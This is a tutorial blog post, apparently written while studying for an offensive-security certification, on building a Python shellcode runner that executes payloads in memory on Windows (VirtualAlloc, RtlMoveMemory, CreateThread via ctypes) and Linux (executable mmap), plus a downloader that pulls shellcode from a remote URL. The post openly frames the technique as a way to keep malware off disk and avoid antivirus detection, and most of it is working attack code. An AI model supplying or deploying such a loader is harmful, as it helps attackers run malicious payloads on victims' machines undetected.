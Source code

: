 ```yaml
---
title: "Simple Shellcode Runner in Python3"
date: 2021-11-22
draft: false
---
```


# Introduction
I'm going to be discussing executing shellcode in Python. A shellcode runner is a tool that executes shellcode in memory. This technique enables us to avoid downloading malware to the hard drive, which might be flagged by AV software.

We can use the native windows operating system API to execute shellcode in memory. This is also known as Win32 API. These APIs were designed to be used with C and uses C data types, however, they can be invoked in other languages.

# Approach 
We will use three APIs from the kernel32 DLL:
- VirtualAlloc
- RtlMoveMemory
- CreateThread

*VirtualAlloc* will be used to allocate unmanaged memory in the calling process. Then we will copy our shellcode into the allocated memory with *RtlMoveMemory* and create a new thread with *CreateThread* to execute the shellcode.

# Calling Win32 API in Python
We will use [ctypes](https://docs.python.org/3/library/ctypes.html) to interact with the win32 apis in python. 

We will take a look at each API one at a time. First let's load the kernel32.dll.

`kernel32 = ctypes.windll.kernel32`

## VirtualAlloc
The prototype for VirtualAlloc is like this:

```c
LPVOID VirtualAlloc(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect );
```

- lpAddress is the memory allocation address. The documentations suggest we set it to 0 to allow the API to choose the location.
- dwSize indicates the size of the allocation. In this case we'll use the size of the shellcode array.
- flAllocationType and flProtect indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAlloc with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable, writable, and executable.

Let's look at the python code:

```python
shellcode = <shellcode here>
length = len(shellcode)
kernel32.VirtualAlloc.restype = ctypes.c_void_p

ptr = kernel32.VirtualAlloc(None, length, 0x3000, 0x40)
```
 
 By default, functions will return the c int type. We can use restype to use other return types.
 
 Now that we have allocated memory, we must copy the shellcode into this memory location.
 
 ## RtlMoveMemory
 The prototype for RtlMoveMemory looks like this:

 ```c
 VOID RtlMoveMemory(
 _Out_       VOID UNALIGNED *Destination,
 _In_  const VOID UNALIGNED *Source,
 _In_        SIZE_T         Length );
 ```
 
 - Destination is the pointer to the memory block to write to.
 - Source is the pointer to the source memory block to copy from.
 - Length is the number of bytes to copy from source to destination.

In Python:

```python
buf = (ctypes.c_char * len(shellcode)).from_buffer_copy(shellcode)

kernel32.RtlMoveMemory.argtypes = (ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t)

kernel32.RtlMoveMemory(ptr, buf, length)
```

The destination pointer is pointing to the allocated buffer which is already a memory pointer so we just pass it as is. 

For the source buffer, we need to get the address of the shellcode. 

Now that we have copied our payload into the executable buffer, we can now execute it with CreateThread.

## CreateThread
The prototype for CreateThread:

```c
HANDLE CreateThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes,
SIZE_T dwStackSize,
LPTHREAD_START_ROUTINE lpStartAddress,
LPVOID lpParameter,
DWORD dwCreationFlags,
LPDWORD lpThreadId );
```

- lpThreadAttributes and dwStackSize specifies thread settings and we will set it to 0 because we will not need them.
- lpStartAddress is the start address for our code execution. We will use the address of our shellcode buffer
- lpParameter is a pointer to the arguments at the start of our starting address. We will not be using this.

Python:
`ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(ptr), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))`

We will also use WaitForSingleObject() to wait until the thread exits.

`ctypes.windll.kernel32.WaitForSingleObject(ht, -1)`


However, this will only work on windows because we need the ctypes windll library. We can use python in mmap to execute our shellcode in memory on linux.


# mmap - linux
We will use [python's mmap](https://docs.python.org/3/library/mmap.html) to execute our shellcode in memory on linux.

First we need to allocate memory and set the proper memory allocation and protection.

```python
mm = mmap.mmap(

 -1,

 mmap.PAGESIZE,

 mmap.MAP_SHARED,

 mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC,

 )
```

We'll write the shellcode to the allocated memory using mmap's write method.
`mm.write(shellcode)`

Now we need to get the address of the mmap memory. We'll use ctypes from_buffer() for this.
`ptr = ctypes.c_int.from_buffer(mm)`

Then all we need to do is create the function and call it to execute the shellcode.

```python
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)

fn = functype(ptr)

fn()
```


# Downloading Shellcode
Now that we are able to execute shellcode in memory in windows and linux, we need to create a function to download our shellcode remotely instead of hardcoding our shellcode. We can use urllib.request to do so.

```python
def downloader(shellcode_url):

 with urllib.request.urlopen(shellcode_url) as f:

 print("[+] Downloading shellcode...")

 time.sleep(3)

 data = f.read()

 shellcode = bytearray(data)

 str1 = shellcode.decode('unicode_escape').encode("raw_unicode_escape")

 file_size = len(str1)

 print("[+] %s Bytes Downloaded!" % (file_size))

 return str1
 ```
 
 We start by downloading the shellcode from the url and reading the file. We then converting the data into a bytearray and return the bytearray.
 
 # Closing Notes
 This is a very simple shellcode runner implemented in python. There are other functionalities that can be added to this and I will work on that as I learn these materials in OSEP. The link to the source code can be found on my github https://github.com/momo1239/buffshark-shellcode-runner
 